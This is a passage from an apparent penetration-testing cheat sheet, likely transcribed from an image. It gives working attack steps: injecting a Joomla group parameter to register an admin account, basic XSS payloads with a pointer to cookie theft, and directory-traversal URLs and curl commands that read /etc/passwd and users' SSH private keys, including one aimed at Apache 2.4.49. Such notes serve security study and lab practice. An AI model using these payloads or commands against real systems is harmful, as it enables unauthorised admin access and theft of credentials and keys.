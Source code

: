 First, fill the registration form using 2 different passwords # Intercept the request and add the following parameter : &jform[groups][]=7 (jform%5Bgroups%5D%5B%5D=7)
Forward the request → Fail because of different passwords
Now just retry to fill, using 2 valid passwords, without intercept
The parameter will be cached and the account will be created as admin !`
### XSS

#### Identify XSS

The most common special characters used for this purpose include:
```
< > ' " { } ;
```
#### Basic XSS

Send a request via burp or via browser.
Pay attention to input fields, search fields that could accept unsanitized input, like User-Agent.
Use the famous `<script>alert(42)</script>`
#### \*Privilege Escalation via XSS
Give me your cookie!
https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/

### Directory Traversal

Credits:
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

Example:
```
 http://domain.com/meteor/index.php?page=admin.php
```

File /etc/passwd via Directory Traversal
```
http://domain.com/meteor/index.php?page=../../../../../../../../../etc/passwd
```
with user information (/bin/bash or /bin/sh), we can try to get the ssh key.

ssh key via Directory Traversal:
```
http://domain.com/meteor/index.php?page=../../../../../../../../../home/user/.ssh/id_rsa
```

Via curl:
```
curl
http://domain.com/meteor/index.php?page=../../../../../../../../../home/user/.ssh/id_rsa
```
NOTE: try also to find other types of keys like ECDSA with id_ecdsa.

#### Different Encoding

Directory traversal vulnerability in **Apache 2.4.49**
```
curl http://192.168.50.16/cgi-bin/../../../../etc/passwd
```
